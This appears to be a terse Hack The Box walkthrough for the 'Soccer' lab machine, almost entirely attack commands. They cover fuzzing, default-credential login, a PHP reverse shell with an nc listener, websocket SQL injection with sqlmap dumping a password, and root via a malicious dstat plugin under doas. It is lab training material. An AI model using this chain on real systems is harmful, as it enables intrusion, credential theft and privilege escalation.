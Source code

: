 ```
nmap -p- -T5 -Pn 10.10.11.194
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
google: tiny file manager default credentials
admin/admin@123
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```


```
nmap -p- -T5 -Pn 10.10.11.194
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8a88354-8431-4faf-bed1-9189bef20fd4)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f1f40f57-6fb8-48e4-9629-59bb877e854c)

![image](https://github.com/regarmulia/HTB/assets/33616880/acda7e8e-9e80-4d80-a1a3-333f9f8e4469)

```
google: tiny file manager default credentials
admin/admin@123
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c6bedb07-7a47-436f-942b-15c949de746b)

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4b12ad89-0d39-4877-b12f-73dab6bb0ea3)

![image](https://github.com/regarmulia/HTB/assets/33616880/ad22edf8-9aa4-49ea-a9df-ecc608b234d0)

![image](https://github.com/regarmulia/HTB/assets/33616880/b8e4db97-b66e-4138-a1b4-38552e356b67)

```
Sign in
OR 1=1
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
1324 | player@player.htb | PlayerOftheMatch2022 | player
```
![image](https://github.com/user-attachments/assets/d6a2d1d8-1e2f-44b7-9057-c14ab3b0fa68)

![image](https://github.com/regarmulia/HTB/assets/33616880/27f854e3-b36e-4beb-90a7-708e4bbeeffa)

![image](https://github.com/regarmulia/HTB/assets/33616880/176c97ff-d6f4-4bb5-b65e-0206dd0acaf1)

![image](https://github.com/regarmulia/HTB/assets/33616880/fb5cc7e0-df48-4be9-b984-60361ec55bb6)

```
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```
![image](https://github.com/regarmulia/HTB/assets/33616880/90eed874-4f01-4e17-894d-5755485f29a7)

![image](https://github.com/regarmulia/HTB/assets/33616880/268a22c0-f6ec-4990-bedd-586de1a71a28)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae59afef-26d4-43bf-b25a-b44eeeaaecae)
